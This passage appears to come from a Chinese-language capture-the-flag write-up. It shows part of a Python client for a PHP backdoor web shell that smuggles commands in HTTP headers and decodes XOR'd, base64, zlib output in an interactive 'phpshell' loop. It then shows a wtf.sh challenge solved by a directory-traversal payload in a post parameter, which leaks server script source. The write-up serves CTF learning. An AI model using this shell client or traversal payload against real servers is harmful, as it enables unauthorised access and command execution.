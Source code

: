 ```python
    debugPrint('After insert payload, referer is:')
    debugPrint(query)
    debugPrint(referer)

    # send request
    r = sess.get(url,headers={'Accept-Language':acceptLangStr,'Referer':referer},proxies=proxies)
    html = r.text
    debugPrint(html)

    # process response
    pattern = re.compile(r'<%s>(.*)</%s>' % (xorKey,xorKey))
    output = pattern.findall(html)
    if len(output) == 0:
        print 'Error,  no backdoor response'
        cmd = raw_input('phpshell > ')
        continue
    output = output[0]
    debugPrint(output)
    output = output.decode('base64')
    output = loopXor(output,xorKey)
    output = zlib.decompress(output)
    print output
    cmd = raw_input('phpshell > ')
```

![](https://ww1.yunjiexi.club/2020/01/17/jFtL4.png)

`ctf{a57b3698-eeae-48c0-a669-bafe3213568c}`

## wtf.sh-150

注册了一个123的账号，登陆后发现生成cookie：username和token，看一下token，b64decode没成功

```
Tgaksz0zOnsYOn7sy26RCs5/oADMj329BJTnagghgiRf2iyQrab4ZMPJ99K+9rj2VJJdPwRZSS7Rjf/wJrBi2g==
```

点了一下评论，发现POST参数直接有评论者的名称，于是考虑参数有没有目录遍历、文件包含的漏洞。构造`post=xxx/../../`

![](https://ww1.yunjiexi.club/2020/01/22/jKO9z.png)

果然包含了一大堆代码，搜索flag，发现了这样一段

```shell
<html>
<head>
    <link rel="stylesheet" type="text/css" href="/css/std.css" >
</head>
$ if contains 'user' ${!URL_PARAMS[@]} && file_exists "users/${URL_PARAMS['user']}"
$ then
$   local username=$(head -n 1 users/${URL_PARAMS['user']});
$   echo "<h3>${username}'s posts:</h3>";
$   echo "<ol>";
$   get_users_posts "${username}" | while read -r post; do
$       post_slug=$(awk -F/ '{print $2 "#" $3}' <<< "${post}");
$       echo "<li><a href=\"/post.wtf?post=${post_slug}\">$(nth_line 2 "${post}" | htmlentities)</a></li>";
$   done 
$   echo "</ol>";
$   if is_logged_in && [[ "${COOKIES['USERNAME']}" = 'admin' ]] && [[ ${username} = 'admin' ]]
$   then
$       get_flag1
$   fi
$ fi
</html>
```